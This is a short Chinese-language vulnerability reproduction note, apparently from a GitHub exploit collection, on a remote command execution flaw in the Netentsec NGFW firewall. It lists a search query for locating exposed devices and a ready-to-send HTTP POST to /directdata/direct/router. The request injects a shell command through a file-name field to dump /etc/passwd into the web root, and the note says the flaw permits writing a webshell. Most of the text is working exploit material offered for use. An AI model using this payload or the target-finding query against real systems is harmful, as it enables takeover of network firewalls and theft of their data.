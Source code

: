 # 网康下一代防火墙远程命令执行漏洞

# 一、漏洞简介
网康下一代防火墙(NGFW) 是网康科技推出的一款可全面应对网络威胁的高性能应用层防火墙。凭借超强的应用识别能力，下一代防火墙可深入洞察网络流量中的用户、应用和内容，借助全新的高性能单路径异构并行处理引擎，在互联网出口、数据中心边界、应用服务前端等场景提供高效的应用层一体化安全防护帮助用户安全地开展业务并降低安全成本。该设备存在远程命令执行漏洞，通过此漏洞攻击者可远程写入webshell木马，远程控制防火墙。

# 二、影响版本
+ 网康下一代防火墙(NGFW)

# 三、资产测绘
+ hunter`app.name="网康 NGFW"`
+ 特征

![1700672214892-89badb4c-3b88-4fad-9bc7-d88920136c28.png](./img/yXZacA-Wy_HtI0DL/1700672214892-89badb4c-3b88-4fad-9bc7-d88920136c28-725692.png)

# 四、漏洞复现
执行命令`cat /etc/passwd`,将命令执行结果写入`/var/www/html/stc.txt`

```python
POST /directdata/direct/router HTTP/1.1
Host: xx.xx.xx.xx
Cookie: PHPSESSID=mrii60g5vlu8hnen3v0cdk13t6; ys-active_page=s%3A
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/json
Content-Length: 172

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/stc.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

获取命令执行结果

```python
/stc.txt
```

![1700672285345-7cc2adaa-94f7-4c3c-bd2f-7cc73470a49f.png](./img/yXZacA-Wy_HtI0DL/1700672285345-7cc2adaa-94f7-4c3c-bd2f-7cc73470a49f-238968.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/rp9svkal7uuo5is6>